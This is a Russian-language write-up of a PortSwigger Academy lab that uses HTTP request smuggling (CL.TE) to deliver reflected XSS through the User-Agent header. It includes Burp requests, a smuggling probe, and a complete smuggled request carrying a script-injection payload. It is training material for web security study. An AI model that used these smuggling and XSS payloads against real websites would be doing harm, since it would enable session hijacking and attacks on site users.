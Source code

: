 Перейдем на уязвимый ресурс

и зайдем на случайную страницу с блогом
Перейдем в `Proxy` -> `HTTP history` и отправим в `Repeater` запрос на случайную страницу с блогом

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/1.png)


Далее по заданию известно, что ресурс уязвим к XSS в user-agent'е

```
GET /post?postId=6
...
User-Agent: test
...
```

и увидим, что на фронте действительно отобразилось значение `test`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/2.png)

далее попробуем выйти за кавычки, и провести XSS атаку

```
GET /post?postId=6
...
User-Agent: test"<script>alert(1)</script>"
...
```


<input required type="hidden" name="userAgent" value="test"<script>alert(1)</script>"">

и увидим, что он действительно отобразился на фронте
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/3.png)

теперь отправим корневую страницу в Repeater и с помощью пикчи проверим что находится на фронте а что на бэке CL/TE

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/4.png)

Нам сразу пришел ответ - значит это CL+CL
```
POST / HTTP/1.1
Host: 0afe000003408f6380de3fed007e0053.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Tranfer-encodin: chunked
Content-Length: 6

3
abc
X
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/5.png)

далее сконфигурируем запрос, где вторым запросом будет вложена XSS инъекция
```
POST / HTTP/1.1
Host: 0afe000003408f6380de3fed007e0053.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/6.png)

потом обновим страницу в браузере и увилим, что XSS Отработала 

снова снова отправим тот же запрос, и подождем уведомления об успешном выполнении лабораторной работы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/pics%20for%20walkthrough/7.png)
